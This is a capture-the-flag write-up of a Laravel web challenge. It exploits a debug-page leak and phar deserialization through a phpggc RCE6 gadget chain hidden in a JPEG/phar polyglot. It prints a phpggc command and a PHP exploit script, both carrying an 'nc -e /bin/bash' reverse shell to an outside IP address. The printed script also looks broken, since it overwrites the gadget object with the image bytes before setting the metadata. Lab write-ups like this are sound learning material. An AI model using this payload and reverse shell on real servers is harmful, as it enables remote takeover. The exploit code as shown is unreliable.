









Userland City
Category: webYou are part of a multinational law enforcement operation called “Takeover” that targets underground darknet markets, the new target is a referral only market called Userland City. After a string of ops intercepting traffic in TOR exit nodes, we managed to obtain a verified vendor’s account that goes by the name of lxkid. We’re ready for stage “Downfall”, Europol has provided us with key software components to capture cleartext credentials from all marketplace users, spyware to deliver through key accounts operating with downloadable deliveries, and help us remove the existing image database including the metadata removal tool. Old IRC logs from one of those devs suggest that the marketplace is built on top of the latest Laravel version and debug mode is enabled. The credentials of the vendor’s account are lxkid02:8rsNN9ohfLp69cVRFEgk4Qzs
Enumeration
We’re given creds in the description of the challenge, and a login page with a captcha as the landing page:

I’m not coming from a Tor IP address, and the captcha is not exploitable in any way we found, so we’re going in prepared for a lot of theming and extra information (some might call ‘lore’).
After logging in, we see a products page with various illegal wares.

Messages and orders are not real links, but we do have a products page where we can upload files:

This is interesting as it’s the only real functionality of the application. We’re also keeping a lookout for anything pointing to a Laravel debug page/stack trace, since that was mentioned in the description– so this seems like the juiciest place to look.
However, before actually being able to do anything with this form, we tried:
- Gobusting (sorry)
- Challenge author left troll (I think) files .htaccess (apache2) and web.config (IIS) when it’s an nginx server
- Reading the about page lore FEROCIOUSLY and looking up posts from five years ago on the silk road subreddit
- Sobbing, loudly
- Reading the source of every page
So I guess my point is that I have no idea what I’m doing.
Debug Page
Anyhow, if we upload a picture, the form works exactly as you would expect. However, if we upload something that is NOT a picture, and try to navigate to it, we get a Laravel debug page! (Well, technically Ignition/Flame or whatever).

This also leaks part of the ProductsContorller.php file, which turns out to be useful. We see that our $filename (presumably extracted from the URL) is being passed to file handling operations. If there’s an existing gadget/pop chain, and the phar “scheme” enabled, we can exploit the application for either LFI or RCE.
Exploitation
So, downloading phpggc, we see that there are some gadgets for Laravel:

RCE6 looks like the most recent one, let’s try that! With source code leaked from the debug page, we can see that the application is checking for a mime type that starts with image/. This means we need to upload a file that is a phar and jpeg (or gif or whatever) polygot. I tried using phpggc as a tool:
./phpggc -pj ./example.jpg -o ./cool.phar laravel/RCE6 'nc -e /bin/bash 167.172.15.1 4250'
And many variations on the above, but nothing worked. So we had to use a custom script (thank you to makelaris for help with this!). gadgets.php is pulled from phpggc/gadgetchains/Laravel/RCE/6/gadgets.php.
<?php
require('./gadgets.php');
$code = '<?php system("nc -e /bin/bash 167.172.15.1 4250") ?>';
$expected = new \Illuminate\Broadcasting\PendingBroadcast($code);
$image = new \Illuminate\Support\MessageBag($expected);
$image = file_get_contents('example.jpg');
$phar = new Phar('payload.phar', 0);
$phar->addFromString('test.txt', 'test');
$phar->setMetadata($image);
$phar->setStub("${image} __HALT_COMPILER(); ?>");
rename('payload.phar', 'payload.jpg');
?>
Viewing the image, we see that it is indeed a real JPEG:

And we append the phar scheme to the image path, for an error and a callback.


Now we have a shell, and can browse to grab the flag at /flag/flagc6NpQ!

This was a really interesting challenge! It felt like one of the most “real-world” ones I’ve done, and I learned a ton. Would highly recommend :)
Flag: HTB{p0p..p0p..p0p..th0s3_ch41ns_0n_th3_way_t0_pr1s0n}